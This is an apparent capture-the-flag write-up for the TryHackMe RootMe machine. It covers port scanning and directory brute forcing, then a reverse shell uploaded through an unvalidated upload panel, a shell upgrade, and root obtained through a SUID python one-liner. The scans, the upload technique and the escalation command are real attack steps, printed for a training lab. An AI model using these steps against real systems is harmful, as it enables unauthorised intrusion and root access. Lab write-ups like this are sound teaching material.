 ### Overview

this is a quick writeup, explaining how we got inside rRootMe machine from tryhackme.
Target Informations

### External Enumeration

Port Scaning i’ll be using nmap as regular:
```python
 nmap -v -sC -sV -oN nmap/nmap_tcp_simple 10.10.128.17
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Directory Brute Forcing

```python
kyle@local:~/rrootme.htb$ ffuf -c -u http://10.10.128.17/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt 
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
:: Progress: [62275/62275] :: Job [1/1] :: 238 req/sec :: Duration: [0:04:21] :: Errors: 3 ::
```

panel and uploads Directories seems interstings


### File Upload Vulnerability (Direct file upload)

visiting uploads folder, we get a Directory listing, that let us see what the folder contain, well its empty for now LOL


![img-smpl]({{site.url}}{{site.baseurl}}/src/assets/img/2.png)


also the Panel directory has an Upload function


![img-smpl]({{site.url}}{{site.baseurl}}/src/assets/img/2.png)


the server does not validate the type of files being uploaded (phtml at least, maybe other extentions too), therefor we can upload our malicious file to get a code execution on the server.

i’ll be uploading a reverse shell, with a .phtml extention

sounds like the file has been uploaded


![img-smpl]({{site.url}}{{site.baseurl}}/src/assets/img/3.png)


and we successfully got a reverse shell

### Internal Enumeration

Getting a Full interactive shell

lets 1st Upgrade to a full interactive shell with python pty module

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty -echo raw
fg
stty rows 41 columns 166
```

### Binary Files with SUID Permission

while searching for suid files, we got a good list, and python is a one of them,


```python
www-data@rootme:/home$ find / -perm /4000 2>/dev/                                                                           
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
...
/usr/bin/python
...
/usr/bin/chfn
/usr/bin/gpasswd

www-data@rootme:/home$ ls -lat /usr/bin/python 
-rwsr-sr-x 1 root root 3665768 Aug  4 17:47 /usr/bin/python
```

### Privelege Escalation

we can easly escalate our priveleges, GTFOBins got a good set of priv escalation methods we can use.

```python
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# cat /root/root.txt
THM{REDACTED}
```


